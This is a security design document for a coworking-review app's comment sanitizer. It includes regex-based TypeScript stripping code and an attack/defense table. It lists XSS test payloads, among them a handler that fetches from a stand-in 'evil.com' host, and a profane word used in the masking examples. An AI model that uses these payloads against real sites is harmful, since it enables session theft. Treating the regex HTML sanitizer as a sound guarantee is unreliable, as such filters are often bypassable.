

# Security Architecture: Review Comment Sanitization & Content Moderation

## 1. Executive Summary & Security Objectives

WorkSphere allows coworkers, remote professionals, and workspace hosts to author and share public venue reviews, ratings, and feedback on workspace amenities, network reliability, and noise levels. Because user-generated comments are persisted in PostgreSQL and rendered publicly across web, mobile, and collaborative dashboards, they represent a high-value attack vector for:

1. **Stored Cross-Site Scripting (Stored XSS):** Malicious payloads injected into review comments executing arbitrary JavaScript in victim browsers, leading to session token exfiltration, account hijacking, or credential theft.
2. **HTML Injection & UI Defacement:** Malicious or malformed HTML tags altering layout structure, injecting phishing forms, overlaying clickjacking transparent panes, or forging interface components.
3. **Abuse, Profanity & Harassment:** Coarse language, abusive slurs, or harassment degrading community workspace trust and violating service policies.
4. **Buffer & Resource Exhaustion (DoS):** Unbounded payloads, memory exhaustion, or regex denial of service (ReDoS).

To neutralize these threats, WorkSphere deploys a multi-stage sanitization and moderation pipeline in [`src/lib/reviewCommentSanitizer.ts`](file:///c:/Users/admin/Desktop/workfere/src/lib/reviewCommentSanitizer.ts), complemented by automated sentiment and spam heuristics in [`src/lib/reviews/reviewModerator.ts`](file:///c:/Users/admin/Desktop/workfere/src/lib/reviews/reviewModerator.ts).



---

## 2. Allowed HTML Formatting Tags

To provide reviewers with expressive formatting without compromising browser security boundaries, WorkSphere implements a strict **tag allowlist**. All tags outside the allowlist are stripped while preserving harmless inner text content.

### 2.1 Allowlist Specification

| Allowed Tag | Permitted Attributes | Enforcement & Security Rules | Purpose |
| :--- | :--- | :--- | :--- |
| `<b>` | None | Attributes stripped; converted to clean `<b>...</b>`. | Text emphasis for venue highlights. |
| `<i>` | None | Attributes stripped; converted to clean `<i>...</i>`. | Italics for ambient descriptions. |
| `<a>` | `href`, `target`, `rel` | `href` must start with `https://`, `http://`, or `mailto:`. Always forces `target="_blank"` and `rel="noopener noreferrer"`. | Linking to external speed tests or portfolios. |

### 2.2 Anchor Tag (`<a>`) Hardening & Link Safety

Anchor tags are frequent vectors for reverse tabnabbing and scheme exploitation. The sanitizer applies deterministic transformation:

```typescript
function sanitizeAnchorTag(fullTag: string, attributes: string): string {
  const hrefMatch =
    attributes.match(/href\s*=\s*(['"])(.*?)\1/i) ||
    attributes.match(/href\s*=\s*([^\s>]+)/i);

  if (!hrefMatch) return "";

  const rawUrl = (hrefMatch[2] || hrefMatch[1] || "").trim();

  // Validate protocol: allow only http, https, and mailto
  if (!/^(https?:\/\/|mailto:)/i.test(rawUrl)) {
    return ""; // Drop malicious schemes or relative javascript links
  }

  const safeUrl = rawUrl.replace(/"/g, "&quot;");
  return `<a href="${safeUrl}" target="_blank" rel="noopener noreferrer">`;
}
```

#### Security Guarantees:
1. **Reverse Tabnabbing Mitigation:** Mandating `rel="noopener noreferrer"` ensures that external sites linked from reviews cannot access `window.opener`, preventing phishing redirects of the WorkSphere tab.
2. **Context Isolation:** Mandating `target="_blank"` keeps venue reviews cleanly decoupled from third-party websites.
3. **Protocol Lockdown:** Rejects `javascript:`, `data:`, `vbscript:`, and relative scheme-relative URLs (`//evil.com`).

---

## 3. Script Tag and Inline Event Handler Stripping

Any executable code introduced into review comments must be neutralized prior to persistence.

### 3.1 Script and Dangerous Container Stripping

The sanitizer completely strips dangerous HTML container elements along with their enclosed inner text or executable payloads:

*   `<script>...</script>`: Prevents direct script execution.
*   `<style>...</style>`: Prevents CSS-based keylogging, font exfiltration, and UI spoofing.
*   `<iframe>...</iframe>`: Prevents clickjacking and nested frame exploitation.
*   `<object>`, `<embed>`, `<applet>`: Blocks legacy plugin execution (Flash, Silverlight, Java).
*   `<form>`, `<input>`, `<button>`: Prevents credential harvesting and inline phishing forms.

```typescript
// Strip script tags and their inner content
cleaned = cleaned.replace(/<script\b[^<]*(?:(?!<\/script>)<[^<]*)*<\/script>/gi, "");

// Strip style, iframe, object, embed, and form blocks
cleaned = cleaned.replace(/<style\b[^<]*(?:(?!<\/style>)<[^<]*)*<\/style>/gi, "");
cleaned = cleaned.replace(/<iframe\b[^<]*(?:(?!<\/iframe>)<[^<]*)*<\/iframe>/gi, "");
cleaned = cleaned.replace(/<object\b[^<]*(?:(?!<\/object>)<[^<]*)*<\/object>/gi, "");
cleaned = cleaned.replace(/<embed\b[^>]*>/gi, "");
cleaned = cleaned.replace(/<form\b[^<]*(?:(?!<\/form>)<[^<]*)*<\/form>/gi, "");
```

### 3.2 Inline DOM Event Handler Stripping

Attackers commonly smuggle XSS vectors into attributes (e.g. `<b onmouseover="alert(1)">`, ``). The sanitizer aggressively scrubs all inline `on*` event handlers:

```typescript
// Strip all inline DOM event handlers (on\w+="..." or on\w+='...')
cleaned = cleaned.replace(/\son[a-z]+\s*=\s*(['"][^'"]*['"]|[^\s>]+)/gi, "");
```

*Example Transformation:*
```html
<!-- Input -->
<b onmouseover="stealTokens()" onclick="fetch('//evil.com')">Great WiFi</b>

<!-- Output -->
<b>Great WiFi</b>
```

---

## 4. Character Length Constraints & Boundary Enforcement

To defend against payload bloat, database text column overflow, and UI rendering lag, review comments are validated against strict length limits:

```typescript
export const MIN_COMMENT_LENGTH = 3;
export const MAX_COMMENT_LENGTH = 1000;
```

### 4.1 Length Validation Rules

1. **Minimum Length (`MIN_COMMENT_LENGTH = 3`):**
   - Disallows meaningless one-letter or two-letter comments (e.g. `"ok"`, `"hi"`, `"."`).
   - Ensures feedback contains actionable descriptions for other workspace members.
2. **Maximum Length (`MAX_COMMENT_LENGTH = 1000`):**
   - Limits reviews to approximately 150–200 words, optimizing readability on mobile and dashboard cards.
   - Comments exceeding 1000 characters are flagged as invalid during validation (`validateReviewComment`) and hard-truncated during normalization (`sanitizeReviewComment`).
3. **Control Character Scrubbing:**
   - Non-printable ASCII codes (`\u0000-\u001F`, `\u007F`), null bytes (`\0`), and control codes that confuse terminal outputs or database parsers are stripped:
   ```typescript
   text.replace(/[\u0000-\u0008\u000B\u000C\u000E-\u001F\u007F]/g, "");
   ```
4. **Whitespace Normalization:**
   - Consecutive tabs and spaces are collapsed to single spaces (`replace(/[ \t]+/g, " ")`).

---

## 5. Profanity Masking & Content Moderation

WorkSphere maintains an inclusive, respectful coworking community. Review comments are scanned for profanity, slurs, and abusive terminology using exact word boundaries.

### 5.1 Profanity Masking Mechanics

When a prohibited word is detected:
1. It is matched case-insensitively using regex word boundaries (`\b... \b`).
2. The detected term is replaced by an exact number of asterisks (`*`) matching its original character length.
3. The original review sentiment is preserved without completely censoring legitimate constructive feedback.

```typescript
export function maskProfanity(
  text: string,
  profanityList: readonly string[] = DEFAULT_PROFANITY_WORDS,
): { maskedText: string; flaggedWords: string[] } {
  if (!text) return { maskedText: "", flaggedWords: [] };

  let maskedText = text;
  const flaggedWords: string[] = [];

  for (const word of profanityList) {
    const escaped = escapeRegex(word);
    const regex = new RegExp(`\\b${escaped}\\b`, "gi");

    if (regex.test(maskedText)) {
      flaggedWords.push(word);
      maskedText = maskedText.replace(regex, "*".repeat(word.length));
    }
  }

  return {
    maskedText,
    flaggedWords: Array.from(new Set(flaggedWords)),
  };
}
```

### 5.2 Substring False-Positive Prevention (The "Scunthorpe" Problem)

Naïve substring replacement leads to severe false positives where benign words contain substrings of profanity (e.g., masking "classic" or "Scunthorpe").

By enforcing regex word boundary anchors (`\b`):
*   `"The staff was an asshole."` $\rightarrow$ `"The staff was an *******."` (Flagged & Masked)
*   `"We enjoyed classic espresso."` $\rightarrow$ `"We enjoyed classic espresso."` (Clean & Unaltered)
*   `"Visited near Scunthorpe."` $\rightarrow$ `"Visited near Scunthorpe."` (Clean & Unaltered)

---

## 6. Architecture Integration & Pipeline Usage

The sanitization pipeline in `src/lib/reviewCommentSanitizer.ts` integrates cleanly into both API route handlers and server services.

### 6.1 Review Validation in API Handlers

```typescript
import { validateReviewComment } from "@/lib/reviewCommentSanitizer";

export async function POST(req: Request) {
  const { comment, rating } = await req.json();

  const validation = validateReviewComment(comment);
  if (!validation.isValid) {
    return NextResponse.json(
      { error: validation.errors.join(" ") },
      { status: 400 }
    );
  }

  // Persist safe, sanitized, and masked comment
  const review = await prisma.venueReview.create({
    data: {
      comment: validation.sanitized,
      rating,
      flagged: validation.flaggedWords.length > 0,
      ...
    },
  });

  return NextResponse.json({ success: true, review });
}
```

---

## 7. Security Attack Vector & Defense Matrix

| Attack Vector / Input Payload | Sanitization Action | Resulting Safe Output | Defense Classification |
| :--- | :--- | :--- | :--- |
| `<script>alert(1)</script>Good spot!` | Strips entire `<script>` block and inner payload. | `Good spot!` | Stored XSS Neutralization |
| `<b onclick="steal()">Fast WiFi</b>` | Strips `onclick` inline event handler; retains `<b>`. | `<b>Fast WiFi</b>` | Event Handler Scrubbing |
| `<a href="javascript:alert(1)">Click</a>` | Rejects non-HTTP scheme; drops anchor tag. | `Click` | URI Scheme Validation |
| `<a href="https://speedtest.net">Link</a>` | Validates HTTPS; injects `target="_blank"` and `rel="noopener noreferrer"`. | `<a href="https://speedtest.net" target="_blank" rel="noopener noreferrer">Link</a>` | Reverse Tabnabbing Defense |
| `<div>Great</div><span>Coffee</span>` | Strips disallowed tags while preserving inner text. | `Great Coffee` | Tag Allowlist Enforcement |
| `Dirty bathroom and asshole staff!` | Replaces prohibited term with asterisks (`*******`). | `Dirty bathroom and ******* staff!` | Profanity Masking |
| `ok` (2 characters) | Rejects payload as $< 3$ characters (`MIN_COMMENT_LENGTH`). | `400 Bad Request` | Length Constraint Enforcement |
| 1200 character spam payload | Rejects payload as $> 1000$ characters (`MAX_COMMENT_LENGTH`). | `400 Bad Request` | Payload Flooding Defense |
| `\u0000\u0007Cafe` (Null / Control bytes) | Strips unprintable control codes. | `Cafe` | Control Character Scrubbing |

---

## 8. Automated Verification & Testing

The sanitization engine is verified through unit tests in [`src/__tests__/lib/reviewCommentSanitizer.test.ts`](file:///c:/Users/admin/Desktop/workfere/src/__tests__/lib/reviewCommentSanitizer.test.ts):

*   **Allowed HTML Tags:** Verifies preservation of `<b>`, `<i>`, and safe `<a>` tags with `target` and `rel` enforcement.
*   **Script & Event Stripping:** Asserts removal of `<script>`, `<style>`, `<iframe>`, and inline event attributes (`onload`, `onerror`, `onclick`).
*   **Profanity Masking:** Tests term masking accuracy, term length consistency, and substring false-positive prevention.
*   **Boundary Limits:** Confirms rejection of strings below 3 characters and exceeding 1000 characters.
